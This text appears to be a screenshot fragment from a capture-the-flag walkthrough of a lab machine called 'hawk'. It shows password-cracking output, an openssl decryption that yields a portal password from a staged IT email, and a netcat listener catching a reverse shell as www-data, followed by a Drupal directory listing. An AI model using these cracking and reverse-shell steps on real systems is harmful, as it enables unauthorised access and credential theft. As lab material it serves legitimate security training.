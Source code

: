 Tried passwords: 52  
Tried passwords per second: inf  
Last tried password: oliver

Password candidate: friends  
Tried passwords: 6526714  
Tried passwords per second: 543892,833333  
Last tried password: kkfan2004

Tried passwords: 13014509  
Tried passwords per second: 591568,590909  
Last tried password: 1haven0one

root@kali:~# openssl enc -aes-256-cbc -d -in drupal.txt.enc -out file.txt  
enter aes-256-cbc decryption password:  
*** WARNING : deprecated key derivation used.  
Using -iter or -pbkdf2 would be better.  
root@kali:~# cat file.txt  
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department

root@kali:~# nc -lnvp 1337  
listening on [any] 1337 ...  
connect to [10.10.14.118] from (UNKNOWN) [10.10.10.102] 40208  
bash: cannot set terminal process group (906): Inappropriate ioctl for device  
bash: no job control in this shell  
www-data@hawk:/var/www/html$ ls -lha  
ls -lha  
total 296K  
drwxr-xr-x 9 root root 4.0K Jun 11 16:08 .  
drwxr-xr-x 3 root root 4.0K Jun 11 14:53 ..  
-rw-r--r-- 1 www-data www-data 6.0K Jun 11 15:49 .htaccess  
-rwxr-x--- 1 www-data www-data 110K Jun 11 16:08 CHANGELOG.txt  
-rwxr-x--- 1 www-data www-data 1.5K Jun 11 16:08 COPYRIGHT.txt  
-rwxr-x--- 1 www-data www-data 1.7K Jun 11 16:08 INSTALL.mysql.txt  
-rwxr-x--- 1 www-data www-data 1.9K Jun 11 16:08 INSTALL.pgsql.txt  
-rwxr-x--- 1 www-data www-data 1.3K Jun 11 16:08 INSTALL.sqlite.txt  
-rwxr-x--- 1 www-data www-data 18K Jun 11 16:08 INSTALL.txt  
-rwxr-x--- 1 www-data www-data 18K Jun 11 16:08 LICENSE.txt  
-rwxr-x--- 1 www-data www-data 8.6K Jun 11 16:08 MAINTAINERS.txt  
-rwxr-x--- 1 www-data www-data 5.3K Jun 11 16:08 README.txt  
-rwxr-x--- 1 www-data www-data 9.9K Jun 11 16:08 UPGRADE.txt  
-rwxr-x--- 1 www-data www-data 6.5K Jun 11 16:08 authorize.php  
-rwxr-x--- 1 www-data www-data 720 Jun 11 16:08 cron.php  
drwxr-x--- 4 www-data www-data 4.0K Jun 11 16:08 includes  
-rwxr-x--- 1 www-data www-data 529 Jun 11 16:08 index.php  
-rwxr-x--- 1 www-data www-data 703 Jun 11 16:08 install.php  
drwxr-x--- 4 www-data www-data 4.0K Jun 11 16:08 misc  
drwxr-x--- 42 www-data www-data 4.0K Jun 11 16:08 modules  
drwxr-x--- 5 www-data www-data 4.0K Jun 11 16:08 profiles  
-rwxr-x--- 1 www-data www-data 2.2K Jun 11 16:08 robots.txt  
drwxr-x--- 2 www-data www-data 4.0K Jun 11 16:08 scripts  
drwxr-x--- 4 www-data www-data 4.0K Jun 11 16:08 sites  
drwxr-x--- 7 www-data www-data 4.0K Jun 11 16:08 themes  
-rwxr-x--- 1 www-data www-data 20K Jun 11 16:08 update.php  
-rwxr-x--- 1 www-data www-data 2.2K Jun 11 16:08 web.config  
-rwxr-x--- 1 www-data www-data 417 Jun 11 16:08 xmlrpc.php  
www-data@hawk:/var/www/html$ cd sites  
cd sites